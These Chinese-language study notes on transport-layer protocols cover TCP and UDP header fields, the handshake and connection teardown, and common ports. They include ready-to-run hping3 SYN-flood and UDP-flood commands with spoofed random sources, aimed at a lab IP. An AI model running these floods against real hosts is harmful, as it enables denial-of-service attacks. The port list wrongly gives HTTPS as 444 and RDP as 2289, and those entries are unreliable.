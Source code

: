 # 传输层协议

## 一、传输层

### 1. 传输层功能

- 定义应用层协议数据的端口号，流量控制
- 对原始数据进行分段处理

### 2. 传输层提供的服务

- 传输连接服务：建立连接
- 数据传输服务：流量控制、差错控制、序列控制

## 二、TCP协议（面向连接）

### 1. 面向连接

- 要求数据在传输以前必须建立连接，数据传输完成后，必须释放来连接
- 仅支持单播传输：在两个终端之间建立的点对点连接

### 2. TCP报文字段

![img](../../picture/092f011e446f4ada98e8c02b09a1a8f8.jpg)

-  URG：紧急标志位，说明紧急指针有效。
-  ACK：确认标志位， 取1时表示应答字段有效，也即TCP应答号将包含在TCP段中，为0则反之。
- RST：复位标志，用于重建一个已经混乱的连接，用来复位产生错误的连接，也会用来拒绝错误和非法的数据包。
-  SYN：同步标志，该标志仅在三次握手建立TCP连接时有效，只在三次握手的前两次为1。
-  FIN：结束标志，表示发送端已经发送到数据末尾，数据传送完成，发送FIN标志位的TCP段，连接将被断开。

### 3.TCP建立连接的 三次握手

![image-20220722120340313](../../picture/3505ac79730e423a99292dc2e32c4740.png)

- acknowledge number：表示的是期望的对方（接收方）的下一次sequence number是多少。
- TCP 协议规定SYN报文虽然不携带数据， 但是也要消耗1个序列号， 所以前两次握手客户端和服务端都需要向对方回复 x+1 或 y+1 。

### 4. TCP释放连接的四次挥手

![img](../../picture/b0ffab8685bd450b8ad8b1618fb39c0c.png)

- 第一次挥手：A数据传输完毕需要断开连接，A的应用进程向其TCP发出连接释放报文段（FIN = 1,序号seq = u）,并停止再发送数据，主动关闭TCP连接，进入FIN-WAIT-1状态，等待B的确认。

- 第二次挥手：B收到连接释放报文段后即发出确认报文段（ACK=1，确认号ack=u+1,序号seq=v）,B进入CLOSE-WAIT关闭等待状态,此时的TCP处于半关闭状态，A到B的连接释放。而A收到B的确认后，进入FIN-WAIT-2状态，等待B发出的连接释放报文段。
- 第三次挥手：当B数据传输完毕后，B发出连接释放报文段（FIN = 1，ACK = 1，序号seq = w,确认号ack=u+1）,B进入LAST-ACK（最后确认）状态，等待A 的最后确认。
- 第四次挥手：A收到B的连接释放报文段后，对此发出确认报文段（ACK = 1，seq=u+1，ack=w+1）,A进入TIME-WAIT（时间等待）状态。此时TCP未释放掉，需要经过时间等待计时器设置的时间2MSL后，A才进入CLOSE状态。

 ### 5. TCP半关闭状态

- TCP提供了连接的一端在结束它的发送后还能接收来自另一端数据的能力。

### 6. TCP半连接状态

- 如果A向B发起链接，B也按照正常情况响应了，但是A不进行三次握手，这就是半连接。

### 7. TCP常见端口号

- 21号：FTP
- 22号：SSH
- 23号：TELNET
- 25号：SMTP
- 53号*：DNS
- 80号：HTTP
- 110号：POP3
- 143号：IMAP4
- 444号：HTTPS
- 3306号：MYSQL
- 2289号：RDP

### 8. SYN　Flood洪水攻击

- 实施
  - 在kali上使用hping3工具

```
hping3 -c 1000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.2.100
-c:发送数据包数量
-d:发送数据包大小
-S（大写）:只发送SYN报文
-w:窗口大小
-p:目标端口
192.168.2.100:服务器IP
```

- 防御
  - 使用TCP代理
  - TCP源探测（下一代防火墙）

## 三、UDP协议（用户数据报协议）

### 1. 特定

- 不需要建立连接，直接发送数据，不会去重新排序，不需要确认

### 2. 报文字段

- 源端口
- 目标端口
- UDP长度
- UDP校验和

### 3. 常见的UDP端口号

- 53号：DNS
- 69号：TFTP
- 111号：RPC（远程过程调用）
- 123号：NTP
- 161号：SNMP（网络管理协议）

### 4. Flood攻击

```
hping3 -q -n --rand-source --udp -p 53 --flood 192.168.2.100 -d 10000
-q:安静模式
-n:数字化输出
--rand-source:随机源IP地址
-p:指定目标端口
```



